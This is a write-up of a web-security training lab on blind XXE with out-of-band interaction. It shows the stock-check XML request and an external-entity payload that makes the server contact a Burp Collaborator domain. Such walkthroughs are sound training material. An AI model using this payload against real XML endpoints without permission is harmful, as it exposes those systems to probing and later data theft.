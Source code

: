 # Lab: Blind XXE with out-of-band interaction

>This lab has a "Check stock" feature that parses XML input but does not display the result.

>You can detect the blind XXE vulnerability by triggering out-of-band interactions with an external domain.

>To solve the lab, use an external entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.

### Observations
My burp collaborator link: `gxhmst8uwfts21tt0gdapklrgim8ax.burpcollaborator.net`

We can see the following XML in the `POST /product/stock` endpoint: `<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>`

### Solution
Send the `POST /product/stock` request to repeater so that we can modify the request

I injected an xml external entity that makes a request to my collaborator instance with this payload: `<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://gxhmst8uwfts21tt0gdapklrgim8ax.burpcollaborator.net"> ]>`

I then changed the value within the productId tags to `&xxe;`, this executes the http request specified in my injected XXE. Remember to prepend your collaborator with `http://`

Send the request, lab solved!


